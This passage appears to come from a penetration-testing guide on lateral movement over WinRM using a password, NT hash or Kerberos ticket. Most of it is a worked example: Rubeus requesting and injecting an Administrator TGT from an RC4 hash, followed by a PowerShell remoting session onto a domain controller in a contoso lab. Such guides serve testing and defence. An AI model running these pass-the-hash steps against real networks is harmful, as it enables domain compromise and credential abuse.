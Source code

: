 As well as in the RPC/SMB case, you can use a password, a NT hash or a Kerberos ticket to connect to the target machine. With evil-winrm, you can pass them to the application as a parameters or configure the ccache file as in impacket. In case of the Powershell cmdlets, you can use a password directly, but if you have a Kerberos ticket or a NT hash, you will need to inject them by using [Rubeus](https://github.com/GhostPack/Rubeus) or [mimikatz](https://github.com/gentilkiwi/mimikatz).

INSERT LINK TO: Lateral Movement -> WinRM - Powershell Remoting (Lateral Movement)

Example:

```powershell
PS C:\> .\Rubeus.exe asktgt /user:Administrator /rc4:b73fdfe10e87b4ca5c0d957f81de6863 /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.6.1

[*] Action: Ask TGT

[*] Using rc4_hmac hash: b73fdfe10e87b4ca5c0d957f81de6863
[*] Building AS-REQ (w/ preauth) for: 'contoso.local\Administrator'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFQjCCBT6gAwIBBaEDAgEWooIETzCCBEthggRHMIIEQ6ADAgEFoQ8bDUNPTlRPU08uTE9DQUyiIjAg
      oAMCAQKhGTAXGwZrcmJ0Z3QbDWNvbnRvc28ubG9jYWyjggQFMIIEAaADAgESoQMCAQKiggPzBIID7xK3
      <!--stripped-->
      ERgPMjAyMTA1MDgwMjQzMjZapxEYDzIwMjEwNTE0MTY0MzI2WqgPGw1DT05UT1NPLkxPQ0FMqSIwIKAD
      AgECoRkwFxsGa3JidGd0Gw1jb250b3NvLmxvY2Fs
[+] Ticket successfully imported!

  ServiceName           :  krbtgt/contoso.local
  ServiceRealm          :  CONTOSO.LOCAL
  UserName              :  Administrator
  UserRealm             :  CONTOSO.LOCAL
  StartTime             :  07/05/2021 18:43:26
  EndTime               :  08/05/2021 04:43:26
  RenewTill             :  14/05/2021 18:43:26
  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType               :  rc4_hmac
  Base64(key)           :  95a1NmgYXwOmiyCa3qlplA==

PS C:\> Enter-PSSession -ComputerName dc01
[dc01]: PS C:\Users\Administrator\Documents> whoami
contoso\administrator
[dc01]: PS C:\Users\Administrator\Documents> hostname
dc01
[dc01]:
```
